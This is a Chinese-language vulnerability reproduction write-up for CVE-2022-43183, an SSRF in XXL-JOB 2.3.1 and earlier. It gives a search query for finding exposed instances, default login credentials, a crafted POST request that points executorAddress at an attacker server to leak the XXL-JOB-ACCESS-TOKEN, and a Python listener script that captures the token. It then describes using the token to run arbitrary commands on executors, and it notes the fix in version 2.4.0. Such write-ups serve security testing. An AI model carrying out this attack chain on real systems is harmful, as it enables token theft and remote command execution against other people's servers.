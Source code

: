 # XXL-JOB SSRF 漏洞泄露 Token 导致 RCE CVE-2022-43183

## 漏洞描述

XXL-JOB 是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB 分为 admin 和 executor 两端，前者为后台管理页面，后者是任务执行的客户端。

XXL-JOB =< 2.3.1 版本的 `xxl-job-2.3.1/xxl-job-admin/src/main/java/com/xxl/job/admin/controller/JobLogController.java` 中存在一个 SSRF 漏洞，该漏洞源自 `/logDetailCat`，它直接向 `executorAddress` 指定的地址发送查询日志请求，而不判断 `executorAddress` 参数是否为有效的执行者地址。查询请求携带 `XXL-JOB-ACCESS- TOKEN`，导致 `XXL-JOB-ACCESS-TOKEN` 泄露。攻击者可通过泄露的 `XXL-JOB-ACCESS-TOKEN` 调用任意 executor，最终导致任意命令执行。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2022-43183
- https://github.com/xuxueli/xxl-job/issues/3002

## 漏洞影响

```
XXL-JOB =< 2.3.1
```

## 网络测绘

```
app="XXL-JOB" || title="任务调度中心" || ("invalid request, HttpMethod not support" && port="9999")
```

## 环境搭建

本地搭建 XXL-JOB v2.3.1，源码 https://github.com/xuxueli/xxl-job/archive/refs/tags/2.3.1.zip

环境启动后，访问 `http://your-ip:8080/xxl-job-admin/toLogin` 即可查看到管理端（admin），访问 `http://your-ip:9999` 可以查看到客户端（executor）。

默认口令 `admin/123456` 登录后台：

![](images/XXL-JOB%20默认%20accessToken%20身份绕过漏洞/image-20241112174933070.png)

## 漏洞复现

复现思路：

1. 创建一个普通用户，该用户没有 executor 权限；
2. 搭建一个恶意 HTTP 服务器，打印请求详细信息；
3. 使用普通用户调用 `/xxl-job-admin/joblog/logDetailCat` 接口，将 `executorAddress` 替换为恶意 HTTP 服务器地址；
4. 恶意 HTTP 服务器将通过 SSRF 漏洞获取泄露的 `XXL-JOB-ACCESS-TOKEN`；
5. 携带泄露的 `XXL-JOB-ACCESS-TOKEN` 调用任意 executor，执行任意命令。

首先，创建一个普通用户 user：

```
user/GO_7YhvzrHF4
```

![](images/XXL-JOB%20垂直越权漏洞%20CVE-2022-36157/image-20241113085305599.png)

以普通用户 user 身份重新登录：

![](images/XXL-JOB%20垂直越权漏洞%20CVE-2022-36157/image-20241113085718183.png)

然后，搭建一个恶意 HTTP 服务器，调用 `/xxl-job-admin/joblog/logDetailCat` 接口，将 `executorAddress` 替换为恶意 HTTP 服务器地址：

```
POST /xxl-job-admin/joblog/logDetailCat HTTP/1.1
Host: your-ip:8080
Content-Length: 97
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Origin: http://your-ip:8080
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://your-ip:8080/xxl-job-admin/joblog/logDetailCat
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: XXL_JOB_LOGIN_IDENTITY=7b226964223a322c22757365726e616d65223a2275736572222c2270617373776f7264223a223462643033633065653631306365383332626534616266313334363535643938222c22726f6c65223a302c227065726d697373696f6e223a22227d
Connection: keep-alive

executorAddress=http%3A%2F%2F<your-server-ip>%3A8888&logId=0&fromLineNum=0&triggerTime=1731464078000
```

![](images/XXL-JOB%20SSRF%20漏洞泄露%20Token%20导致%20RCE%20CVE-2022-43183/image-20241113101647909.png)

恶意 HTTP 服务器成功获取泄露的 `XXL-JOB-ACCESS-TOKEN`：

![](images/XXL-JOB%20SSRF%20漏洞泄露%20Token%20导致%20RCE%20CVE-2022-43183/image-20241113103259963.png)

最后，参考 XXL-JOB 默认 accessToken 身份绕过漏洞中的方法，携带泄露的 `XXL-JOB-ACCESS-TOKEN` 调用任意 executor，执行任意命令：

![](images/XXL-JOB%20SSRF%20漏洞泄露%20Token%20导致%20RCE%20CVE-2022-43183/image-20241113102351045.png)

## 漏洞 POC

server.py

```python
# -*- coding: utf-8 -*-
# @Author  : Threekiii
# @Time    : 2024-11-13
# @Function: HTTP Server，打印请求详细信息，用于 SSRF 场景下从服务器获取数据

import logging
from http.server import SimpleHTTPRequestHandler, HTTPServer

# 自定义请求处理器
class MyRequestHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        self.log_request_details()
        super().do_GET()  # 处理 GET 请求

    def do_POST(self):
        self.log_request_details()
        
        # 读取并打印请求体内容
        content_length = int(self.headers.get('Content-Length', 0))
        post_body = self.rfile.read(content_length)
        logging.info(f"Request Body: {post_body.decode('utf-8')}")
        
        # 响应客户端
        self.send_response(200)
        self.send_header("Content-type", "text/plain")
        self.end_headers()
        
    def log_request_details(self):
        # 打印请求的详细信息
        logging.info(f"Request Method: {self.command}")
        logging.info(f"Request Path: {self.path}")
        logging.info(f"Headers: {self.headers}")

# 配置日志格式
logging.basicConfig(level=logging.INFO, format='%(asctime)s - %(message)s')

# 启动 HTTP 服务器
def run(server_class=HTTPServer, handler_class=MyRequestHandler, port=8000):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    logging.info(f'Starting server on port {port}...')
    httpd.serve_forever()

if __name__ == "__main__":
    run(port=8888)
```

## 漏洞修复

该漏洞在 v.2.4.0 版本修复。
